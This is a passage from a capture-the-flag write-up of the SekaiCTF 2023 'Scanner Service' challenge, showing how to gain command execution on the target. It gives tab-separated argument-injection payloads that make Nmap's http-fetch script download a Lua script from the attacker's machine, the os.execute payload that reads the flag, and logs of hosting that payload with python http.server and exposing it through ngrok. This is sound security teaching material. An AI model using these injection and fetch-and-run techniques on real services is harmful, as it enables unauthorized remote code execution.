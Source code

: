 Ahh! The escape character filter!

**After some trial and error, I found that we can download arbitrary files to the target machine via `http-fetch` module!** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2023/images/Pasted%20image%2020230829161611.png)

**And it doesn't contain any characters in the filter!**

**So, the payload to upload our files will be:**
```
service=172.17.0.1:80%09--script%09http-fetch%09--script-args%09http-fetch.destination=/tmp,http-fetch.url=/payload.nse
```

1. Run `http-fetch` module with `--script http-fetch`
2. Provide `http-fetch` module's arguments. `http-fetch.destination=/tmp` will save the downloaded file to `/tmp` directory, `http-fetch.url` will download the `payload.nse` file from our attacker machine.

**`payload.nse`:**
```lua
os.execute('cat /flag-*')
```

This Lua script (Nmap scripts are written in Lua) will execute OS command `cat /flag-*`, which will then read the flag file's content.

- Host the `payload.nse` payload script via Python's `http.server` module:

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2023/Web/Scanner-Service)-[2023.08.29|16:40:19(HKT)]
└> cat payload.nse 
os.execute('cat /flag-*')
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2023/Web/Scanner-Service)-[2023.08.29|16:40:20(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

- Upload the payload script via Nmap's `http-fetch` module:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2023/images/Pasted%20image%2020230829164105.png)

- Run the uploaded script:

```
service=172.17.0.1:80%09--script%09/tmp/172.17.0.1/80/payload.nse
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2023/images/Pasted%20image%2020230829164129.png)

Nice! Let's repeat the above steps to get the real flag!

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2023/Web/Scanner-Service)-[2023.08.29|16:42:30(HKT)]
└> ngrok tcp 80
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:16840 -> localhost:80
```
